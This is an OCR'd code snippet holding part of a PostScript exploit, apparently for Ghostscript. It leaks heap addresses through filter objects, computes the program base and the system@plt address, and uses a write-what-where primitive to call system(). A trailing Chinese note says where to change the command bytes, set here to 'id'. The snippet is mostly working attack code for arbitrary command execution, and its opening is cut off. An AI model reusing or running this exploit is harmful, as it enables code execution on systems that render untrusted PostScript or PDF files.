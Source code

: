 ```bash
 <4646464646464646> concatstrings % s->min_left
 1 1 80 {pop <47> concatstrings }  for% s->error_string
 <4848484848484848> concatstrings % s->cursor->r->ptr 
 exch concatstrings  % (where) s->cursor->r->limit -  also update s->cursor->w->ptr
 <4444444444444444> concatstrings % s->cursor->w->limit
 <4545454545454545> concatstrings % s->cbuf.  
 /openWriteFilter 5000 string /NullEncode filter /BCPEncode filter def
 openWriteFilter exch writestring
 openWriteFilter flushfile
 openWriteFilter exch writestring
}def

/readProc{
    leakMemory
    leakAsString
    dup (Found leak: 0x) exch concatstrings (\n) concatstrings print
    revision 9560 ge 
    {dup 375 subOffset} %start of bcpe stream}
    {dup 383 subOffset} 
    ifelse
    dup (BCPE stream: 0x) exch concatstrings (\n) concatstrings print
    dup 111 addOffset %start of read cursor-1
    dup (Start of read cursor -1 : 0x) exch concatstrings (\n) concatstrings print
    dup 81 addOffset %start of proc
    dup (Proc 0x) exch concatstrings (\n) concatstrings print
    dup 64 addOffset
    stringToAddress exch stringToAddress exch concatstrings
    exch stringToAddress
    writewhatwhere
    leakMemoryFilter () writestring leakMemoryFilter flushfile
    leakBuffer
    revision 9560 ge
    {2191 8 getinterval reverse leakAsString}
    {2199 8 getinterval reverse leakAsString}
    ifelse    
    dup (Found leak proc: 0x) exch concatstrings (\n) concatstrings print
}def 

readProc
1154176 subOffset
dup (Base r-x: 0x) exch concatstrings (\n) concatstrings print
6164 addOffset
dup (system@plt: 0x) exch concatstrings (\n) concatstrings print
exch 231 addOffset
dup (process : 0x) exch concatstrings (\n) concatstrings print
stringToAddress exch stringToAddress exch
writewhatwhere
leakMemoryFilter (aa) writestring leakMemoryFilter flushfile
```

并在此行修改想要执行的命令（ascall 码），此处命令为 id
